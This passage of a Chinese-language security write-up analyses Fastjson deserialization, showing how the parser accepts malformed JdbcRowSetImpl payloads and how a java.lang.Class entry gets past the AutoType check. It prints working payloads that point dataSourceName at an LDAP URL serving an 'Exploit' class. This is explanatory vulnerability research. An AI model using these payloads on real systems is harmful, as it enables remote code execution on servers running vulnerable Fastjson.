 当匹配失败后，可能是为了容错，还会继续调用nextToken()方法，匹配到[，token设置为14，在数组反序列化器中调用了nextToken(12)，匹配了`{`，然后调用scanSymbol方法，但现指向字符是`,`，所以得到的key是null，进入下一次循环，得到key：dataSourceName

实际测试去掉这个`,`:`{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{"dataSourceName":"ldap://localhost:1399/Exploit", "autoCommit":true}`依然有效

调试时发现payload还可以变形

`{"@type":"[com.sun.rowset.JdbcRowSetImpl"[<任意数量的,>{<任意数量的,>"dataSourceName":"ldap://localhost:1399/Exploit"``, "autoCommit":true`}

### 第二个payload

对比第一个payload，多了个`{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"}`，这个是对AutoType绕过的，1.2.25才有AutoType，

如图，原来直接loadClass改为了checkAutoType

![](/img/products/yakit/json-checkAutoType.png)

在checkAutoType方法中，未开启AutoType情况下会有下面两种加载方式，先看getClassFromMapping

![](/img/products/yakit/json-getClassFromMapping.png)

如图，从mappings中取

![](/img/products/yakit/json-mappings.png)
